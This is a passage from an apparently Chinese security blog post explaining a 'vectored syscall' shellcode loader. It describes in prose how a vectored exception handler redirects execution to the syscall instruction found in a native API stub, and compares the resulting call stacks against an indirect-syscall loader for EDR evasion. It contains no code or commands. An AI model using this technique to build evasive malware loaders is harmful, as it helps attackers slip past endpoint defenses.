因此，我们现在有了通过向量化处理（Vectored Syscalls）使用系统调用来执行 shellcode 加载器上下文中使用的原生 API 的基础。以下是代码中主要进程的粗略总结。

-   `PVECTORED_EXCEPTION_HANDLER`用于定义向量异常处理程序函数 `PvectoredExceptionHandler`。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了异常代码，例如 `EXCEPTION_ACCESS_VIOLATION`，它将触发对向量异常处理程序的传递。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了访问 `rcx、r10、rax、rip` 寄存器所需的指针。
-   我们特意触发了在 VEH 函数中定义为异常代码的`EXCEPTION_ACCESS_VIOLATION`。
-   `EXCEPTION_ACCESS_VIOLATION`是通过尝试启动本机 API 来触发的，例如通过 `SSN` 的 `NtAllocateVirtualMemory`。
-   `SSN` 被传递到 `rip` 寄存器，而 rip 寄存器又被传递到 VEH 函数中的 `rax` 寄存器。
-   Windows API `GetModuleHandleA` 用于访问 `ntdll.dll` 内存。
-   我们还使用 `GetProcAddress` 访问 `ntdll.dll` 中任何原生 API 的基址（例如 `NtDrawText`）。
-   `FindSyscallAddr` 函数使用 while 循环执行操作码比较，以在原生 API 的 sycall stub（例如 `NtDrawText`）中查找 `syscall` 指令的内存地址。
-   `syscall` 指令的内存地址存储在全局变量 `g_syscall_addr` 中，并传递给 VEH 函数中的 `rip` 寄存器。
-   然后，`syscall`由原生 API 的注册好的 VEH 函数执行，例如 `NtAllocateVirtualMemory`。
-   对执行 shellcode 所需的任何其他必需的原生 API 重复该过程，例如 `NtWriteVirtualMemory、NtProtectVirtualMemory、NtCreateThreadEx` 和 `NtWaitForSingleObject`。

最终，这个序列允许我们使用向量异常处理以（间接）系统调用的形式在加载器中执行 shellcode。

## 个人理解

如上所述，直接系统调用或间接系统调用可以通过 shellcode 加载器中的汇编代码实现。但是，本文表明，这也可以通过向量异常处理（VEH）来完成。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005500-22243bd8-c37e-1.jpg)

例如，如果比较间接 syscall shellcode 加载器和向量化 syscall shellcode 加载器之间线程调用堆栈中堆栈帧的排列，您将看到排列方式完全相同。这是意料之中的，因为 syscall 和 return 语句的执行发生在 ntdll.dll 的内存中，使用向量异常处理。

尽管原生 API `NtWaitForSingleObject` 在两个 shellcode 加载器中都最后执行，但您可以在 vectored syscall 加载程序的线程调用堆栈中看到（上图右半部分），与间接 syscall 加载程序相比，return 语句是在 `NtDrawText` 的内存区域中执行的，而不是在 `NtWaitForSingleObject` 的内存区域中执行的。原因很简单，在我们的 Vectored Syscall Loader 中，我们通过 Windows API `GetProcAddress` 访问 `NtDrawText` 的基址，以便通过操作码比较在 syscall stub 中找到 syscall 语句，最后，syscall 指令的内存地址被传递到 VEH 函数 `PvectoredExceptionHandler` 中 `NtDrawText` 上下文中的 rip 寄存器，以通过 Vectored Exception Handler 执行 syscall。

由于缺乏经验，通过向量异常处理执行系统调用在多大程度上比 EDR 规避更具优势，尚无法判断。我希望本文能帮助您更多地了解向量异常处理以及如何在恶意软件开发中使用它，例如通过系统调用执行 shellcode。下一篇文章见！
